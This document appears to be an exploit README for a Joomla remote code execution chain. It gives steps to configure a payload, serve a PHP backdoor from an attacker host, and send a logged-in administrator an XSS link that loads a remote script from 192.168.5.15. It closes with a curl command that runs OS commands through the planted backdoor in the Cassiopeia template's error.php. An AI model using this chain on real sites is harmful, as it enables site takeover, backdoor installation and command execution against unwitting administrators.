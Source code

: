 # [RCE] Patch File

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] change payload variable values (`patchFileJoomla.js`)

    `phpBdURL` - URL of PHP backdoor to be installed on target site

    `joomlaRoot` - path to Joomla installation on the target system (e.g. `"/path"`)

2. [setup exploit] setup web server (to serve the payload/backdoor)

    * **NOTE**: update/customize PHP backdoor in `bd.txt`

3. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.19/administrator

4. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.19/test/rxss.php?q=<script src=http://192.168.5.15/patchFileJoomla.js></script>
    ```

    * **NOTES**:
      * `192.168.5.19` - target Joomla site
      * `192.168.5.15` - web server hosting payload

5. [post exploit] execute OS command

    ```
    curl "http://192.168.5.19/templates/cassiopeia/error.php?pass=test&cmd=id"
    ```

    * **NOTE**: endpoint URL constructed based on exfiltrated data (obtained via `GET` request, when fetching `bd.txt`)

6. [restore file] restore file via GUI

    *Joomla ➔ System ➔ [Templates] Site Templates ➔ Cassiopeia Details and Files ➔ [tab] Editor ➔ /templlates/cassiopeia - error.php ➔ (remove backdoor) ➔ Save & Close*

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 5 from the "Exploitation Steps" chapter

![Image](screenshots/Joomla_-_patch_file_-_1-1.png)

